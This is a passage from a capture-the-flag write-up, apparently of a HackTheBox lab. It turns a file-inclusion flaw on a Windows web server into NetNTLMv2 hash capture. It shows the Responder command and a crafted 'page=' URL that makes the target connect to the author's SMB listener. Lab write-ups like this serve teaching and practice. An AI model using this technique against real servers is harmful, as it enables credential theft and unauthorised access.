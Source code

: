 Now that we know we can access files on the server, an `LFI` (Local File Incluse) vulnerability, perhaps we there is an `RFI` (Remote File Incluse) vulnerability. From our `nmap`, we know that the server hosting this page is a `Windows` machine. So, in order for us to test this RFI vulnerability, we will first need to learn a bit about `NTLM`.

### NTLM
`NTLM` (New Technology Lan Manager) is essentially a network security manager in Windows that provides authentication, integrity, and confidentiality. Noteably, it is a `single sign-on` (SSO) which allows requires users to only be authenticated once. More details of `NTLM` and the authentication process can be found on [Crowdstrike](https://www.crowdstrike.com/cybersecurity-101/ntlm-windows-new-technology-lan-manager/). Basically, there are tools - such as `Responder` - which allow us to listen in on the NTLM authentication and capture the `NetNTLMv2` hash. If we are able to crack this hash, we can then gain access to the server. Let's give it a go.

### Responder
`Responder` (`git clone https://github.com/lgandx/Responder`), is a tool that can simulate many attacks. In this case, we will use it as a malicious SMB server to capture the `NetNTLMv2` hash. This can be done by:

`sudo python3 Responder.py -I tun0`

Now we will have the server interact with this SMB server (hosted on your client IP - mine being `10.10.14.165`) by changing the URL in our browser to:

`http://unika.htb/index.php?page=//10.10.14.165/any_file_name`

Hash acquired!
